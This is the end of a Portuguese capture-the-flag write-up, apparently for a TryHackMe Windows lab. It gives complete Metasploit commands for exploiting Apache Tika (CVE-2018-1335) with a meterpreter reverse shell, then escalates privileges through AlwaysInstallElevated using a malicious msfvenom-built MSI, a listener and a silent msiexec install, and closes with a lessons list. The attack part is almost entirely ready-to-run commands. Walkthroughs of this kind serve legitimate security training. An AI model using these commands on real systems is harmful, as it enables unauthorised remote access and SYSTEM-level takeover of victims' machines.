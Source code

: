 **Exploit (Metasploit)**

```bash
use exploit/windows/http/apache_tika_jp2_jscript
set RHOSTS 10.201.54.143
set RPORT 61777
set LHOST 10.201.65.120
set LPORT 1234
# para x64:
set PAYLOAD windows/x64/meterpreter/reverse_tcp
run
```

**Privesc – AlwaysInstallElevated**

```cmd
reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

**MSI malicioso + handler**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.201.65.120 LPORT=4445 -f msi -o elev.msi

# msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.201.65.120
set LPORT 4445
run
```

**Execução no alvo**

```bash
upload elev.msi C:\\Windows\\Temp\\elev.msi
shell
msiexec /quiet /qn /i C:\Windows\Temp\elev.msi
```

---

# ✅ Lições & Boas Práticas

* **Fingerprint passivo**: TTL já entrega Windows vs Linux rapidamente.
* **Mapeamento local**: `/etc/hosts` acelera resoluções durante o lab.
* **Enum completa**: portas altas + serviços Windows (RDP/WinRM) dão contexto do SO.
* **Tika 1.17**: endpoints expostos → **CVE-2018-1335** é “golden path” para foothold.
* **Arquitetura importa**: prefira **payload x64** em Windows x64; evita limitações.
* **AlwaysInstallElevated**: se **HKCU** e **HKLM** = `1`, MSI instala como **SYSTEM**.
* **Higiene**: após a prova, **remova** artefatos (ex.: `C:\Windows\Temp\elev.msi`).

---

<div align="center">

**Flags obtidas**

* 🧑 **User:** `THM{*****}`
* 👑 **Admin:** `THM{*****}`

</div>

---

<div align="center">

![Snake animation](https://github.com/Platane/snk/raw/output/github-contribution-grid-snake.svg)

</div>
